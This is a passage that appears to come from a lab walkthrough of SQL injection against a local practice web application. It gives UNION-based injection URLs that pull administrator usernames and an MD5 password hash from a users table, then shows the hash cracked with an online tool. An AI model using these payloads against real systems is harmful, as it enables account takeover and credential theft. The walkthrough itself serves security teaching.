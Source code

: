 # (g) Get username and password for Administrator/s

We have to assume that there may be a few Administrators of the application so we will be using again **LIMIT** and **OFFSET** clauses for listing one column at a time.

From the previous steps we know that the **users** table have all the user's data.
We also know the structure of that table:

- id
- username
- password
- isAdmin
- firstname
- lastname
- avatar
- description

So we need to query the **users** table asking for the **_username_** where **isAdmin=true**, like this:
```shell
SELECT username FROM users WHERE isAdmin=1 LIMIT 1 OFFSET 0
```

> **Note:** 
>
> in MySQL true == 1 when quering


Injecting the query in the browser should look like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT username FROM users WHERE isAdmin=1 LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```


And we keep **increasing the OFFSET** value until we get a blank response.

--

Let say we get **only one** administrator user, with **username='admin'**. Now we need to get the password:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT password FROM users WHERE username='admin' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And we will get some string like this as result:
```shell
9a618248b64db62d15b300a07b00580b
```

This looks like a MD5 hash, so we could use the same online cracking tool we used some steps before to get a plain text password: [https://crackstation.net/](https://crackstation.net/)


The result is: **supersecret**, which is the admin user password.
